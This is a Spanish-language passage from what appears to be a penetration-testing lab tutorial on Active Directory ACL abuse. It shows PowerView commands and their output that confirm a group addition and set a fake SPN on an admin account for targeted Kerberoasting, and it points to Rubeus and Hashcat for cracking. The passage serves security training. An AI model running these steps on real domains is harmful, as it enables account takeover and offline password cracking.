 Una comprobación rápida muestra que nuestra incorporación al grupo fue exitosa.
#### Confirmando que damundsen fue agregado al grupo

```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName

MemberName
----------
busucher
spergazed

<SNIP>

damundsen
dpayne
```

En este punto, deberíamos poder aprovechar nuestra nueva membresía grupal para tomar control sobre el `adunn`usuario. Ahora, digamos que nuestro cliente nos permitió cambiar la contraseña del `damundsen`usuario, pero el `adunn`usuario es una cuenta de administrador que no se puede interrumpir. Dado que tenemos `GenericAll`derechos sobre esta cuenta, podemos divertirnos aún más y realizar un ataque Kerberoast dirigido modificando el [atributo servicePrincipalName](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) de la cuenta para crear un SPN falso que luego podemos usar Kerberoast para obtener el ticket TGS y (con suerte) descifrar el hash sin conexión con Hashcat.

Debemos estar autenticados como miembro del `Information Technology`grupo para que esto tenga éxito. Desde que nos agregamos `damundsen`al `Help Desk Level 1`grupo, heredamos derechos a través de la membresía de grupo anidado. Ahora podemos usar [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) para crear el SPN falso. Podríamos usar la herramienta [targetKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) para realizar este mismo ataque desde un host Linux, y creará un SPN temporal, recuperará el hash y eliminará el SPN temporal, todo en un solo comando.
#### Creando un SPN falso

```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'notahacker/LEGIT' for object 'adunn'
```

Si esto funcionó, deberíamos poder realizar Kerberoast al usuario utilizando cualquier número de métodos y obtener el hash para descifrar sin conexión. Hagamos esto con Rubeus.
#### Kerberoasting con Rubeus
